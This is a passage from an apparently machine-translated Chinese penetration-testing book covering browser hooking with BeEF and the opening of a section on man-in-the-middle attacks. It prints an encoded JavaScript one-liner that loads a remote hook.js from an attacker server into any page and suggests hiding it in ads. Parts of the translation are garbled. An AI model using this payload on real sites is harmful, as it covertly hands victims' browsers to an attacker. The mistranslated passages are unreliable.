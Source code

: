 ![Phishing with BeEF](img/Image00143.jpg)

我们经常被问到，如果没有与 BeEF 一起提供的明显的演示页面，如何能够钩住受害者浏览器。可以在任何网页上使用以下 JavaScript 命令来钩住浏览器：

```
%20(function%20()%20{%20var%20url%20=%20%27http:%2f%10.5.8.74
%2fhook.js%27;if%20(typeof%20beef%20==%20%27undefined%27)%20 {%20var%20bf%20=%20document.createElement(%27script%27);%20bf
.type%20 =%20%27text%2fjavascript%27;%20bf.src%20=%20url;
%20document.body. appendChild(bf);}})();

```

我们仍然需要在运行 JavaScript 命令的方式上有所创新。它可以自动运行，嵌入广告，或任何其他创造性的方式。我们只需用 BeEF 服务器替换 JavaScript 命令中的 IP 地址变量。我们必须注意到，在上一个示例中，服务器的 IP 地址是 10.5.8.74。您需要将其替换为服务器的 IP 地址。确保受害者计算机可以访问您的 BeEF 服务器，否则此攻击将无法工作。

对于套餐和牛肉，准备是关键。我们将需要确保我们对所有攻击进行策划，以解决任何问题，最大限度地减少错误，并确保我们尽可能真实地呈现一个正面，以防止目标环境的用户意识到他们受到了攻击。

# 处死中间人攻击

侦察/武器化和入侵/利用阶段最重要的概念之一是充当 MITM。我们在上一章中稍微提到了这一点，我们使用 ARPspoof 和 Ettercap 等工具，使用软件在主机之间进行内联定位，或者使用多个网络接口进行物理内联定位。上一章中的目标是获取主机之间发生的事情的某种智能，以便我们能够收集重要信息，以便稍后用于入侵和利用。现在，我们在渗透测试中走得更远了，我们将利用这个绝佳的位置使用一些伟大的工具，而不仅仅是窥探。在渗透测试方面，这是一个非常重要的概念，因为我们试图帮助暴露和强化客户网络的许多攻击都使用这些技术。如果我们不能在需要的地方成功地获得 MITM 的地位，我们将有一个向上爬的过程来证明我们的价值。
